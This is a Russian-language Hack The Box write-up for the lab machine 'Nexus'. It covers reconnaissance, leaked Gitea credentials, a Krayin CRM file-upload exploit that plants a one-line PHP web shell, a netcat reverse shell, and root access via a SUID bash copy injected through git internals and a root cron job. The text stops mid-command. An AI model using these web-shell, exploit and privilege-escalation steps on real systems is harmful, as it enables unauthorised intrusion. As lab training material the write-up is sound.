# Nexus - Hack The Box Writeup

## 📋 Информация о машине

Название: Nexus
Сложность: Easy
OS: Linux (Ubuntu)
Дата прохождения: 23 сентября 2026
## 🔍 Разведка (Reconnaissance)

### 1. Подключение и nmap

   Подключаемся к VPN и запускаем сканирование портов:
   
   `Openvpn <путь к конфигу .ovpn>`
   
   Должно появиться сообщение "Initialization Sequence Completed"
   
   

Проверяем  открытые порты с помощью nmap
   nmap -sC -sV -Pn 10.129.101.185
   

   
   Открыты только два порта:
   
    22/tcp — OpenSSH 9.6p1 Ubuntu
   
    80/tcp — nginx 1.24.0 (редирект на http://nexus.htb/)

Добавляем домен в `/etc/hosts`:



## 🔎 Перечисление (Enumeration)
### 2. Анализ веб-сайта

На главной странице видим сайт энергетической компании. В разделе карьеры (`/careers`) находим email менеджера: j.matthew@nexus.htb




### 3. Поиск поддоменов

Используем `ffuf` для поиска виртуальных хостов:

```
ffuf -u http://nexus.htb -H "Host: FUZZ.nexus.htb" \
     -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
     -mc 200
```

Находим поддомен: **git.nexus.htb**



Добавляем его в hosts и переходим по адресу. Там развернут сервис **Gitea**




### 4. Утечка данных в Git

Изучаем публичные репозитории. В `admin/krayin-docker-setup` находим коммит с файлом `.env



В файле обнаруживаем:

- Пароль БД: `N27xh!!2ucY04`
- Новый поддомен: `billing.nexus.htb`



Добавляем `billing.nexus.htb` в hosts. На этом поддомене работает **Krayin CRM v2.2.0**



## 🚪 Первоначальный доступ (Initial Access)
### 5. Вход в CRM

Используем найденные данные:

- **Username:** j.matthew@nexus.htb
- **Password:** N27xh!!2ucY04



После успешного входа в панель администрирования можем заметить версию **Krayin 2.2.0**


### 6. Эксплуатация уязвимости

Через `exploit-db` находим эксплойт для Krayin CRM (CVE-2026-38526)



Скачиваем файл с эксплоитом и проверяем данные, которые нужно в него передать

   
   


Создаем PHP-шелл:

```
<?php system($_GET['cmd']); ?>
```



Запускаем эксплойт:
```
python3 52629.py -t http://billing.nexus.htb -u 'j.matthew@nexus.htb' -p 'N27xh!!2ucY04' -f shell.php
```



### 7. Reverse Shell

Запускаем listener: `nc -lvp 12345`. Вызываем шелл через браузер по пути, который выдал эксплойт





Получаем обратный шелл в терминал с запущенным nc:



### 8. Получение пользователя Jones

Читаем `.env` изнутри системы и находим второй пароль: `DB_PASSWORD=y27xb3ha!!74GbR`

Логинимся по SSH:

```
ssh jones@10.129.101.185
```

Итого: находим первый user-флаг! 



## ⬆️ Повышение привилегий (Privilege Escalation)
### 9. Повышение до Root (Git Internals)

Проверяем наличие wget:



Скачиваем файл **linpeas.sh** с официального репозитория на Github и открываем сервер для отправки файла на уязвимую машину:



Успешно получаем файл и запускаем **linpeas.sh**:


Linpeas нашел открытый порт 3000, на котором находится локально запущенный **Gitea**

Так как у пользователя `jones` был доступ к этому репозиторию, я решил использовать механизм **Git Hooks** и внутренних объектов для повышения привилегий.

Готовим скрипт `123_shell` для создания SUID-бинарника:
```
#!/bin/bash
cp /bin/bash /tmp/shell
chmod 4755 /tmp/shell
```



Создаем пустой репозиторий **test**:



Эксплуатируем Git через низкоуровневые команды (`hash-object`, `commit-tree`), чтобы внедрить вредоносный объект в репозиторий `test`

Этот репозиторий обрабатывался cron-задачей от имени root, которая выполняла `git pull` или аналогичные действия, что привело к исполнению нашего кода

Создаем еще один файл с командой для **cron**:



Эксплуатация уязвимости:
```
jones@nexus:/tmp$ chmod a+x 123_shell

jones@nexus:/tmp$ touch shell

jones@nexus:/tmp$ git clone http://localhost:3000/jones/test.git

jones@nexus:/tmp$ cd test

jones@nexus:/tmp/test$ git init

jones@nexus:/tmp/test$ cp ../123_shell .

jones@nexus:/tmp/test$ cat ../123 | git hash-object -w --stdin

1bc29040ab65bf372f939d2cb224f0103e9efe4c

jones@nexus:/tmp/test$ cat ../123_shell | git hash-object -w –stdin

161fddc2f2bdede1fb24ba7739a79c16c9ed6523

jones@nexus:/tmp/test$ PAYLOAD_HASH=$(echo -n 161fddc2f2bdede1fb24ba7739a79c16c9ed6523 | xxd -r -p)

